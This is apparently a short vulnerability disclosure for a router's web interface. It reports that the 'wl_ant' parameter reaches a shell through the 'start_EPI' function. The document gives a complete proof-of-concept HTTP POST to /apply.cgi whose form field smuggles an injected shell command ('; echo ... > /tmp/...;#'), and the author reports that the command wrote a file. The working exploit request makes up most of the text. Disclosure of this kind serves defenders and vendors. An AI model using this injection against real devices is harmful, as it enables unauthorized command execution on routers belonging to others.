 # wl_ant

in function `start_EPI`, we can inject `wl_ant` to do anything

# PoC
plz replace the session

```http
POST /apply.cgi;session_id=ee76bb45012c149b26e22fa0037333fa HTTP/1.1
Host: 192.168.1.1
Content-Length: 129
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/SingleForward.asp;session_id=ee76bb45012c149b26e22fa0037333fa
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

need_reboot=1&commit=1&need_action=1&nvset_cgi=1&StartEPI=1&wl_ant=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s
```



# result
I successfully touch a file with the content "hacker_payload"
![alt text](imgs/image.png)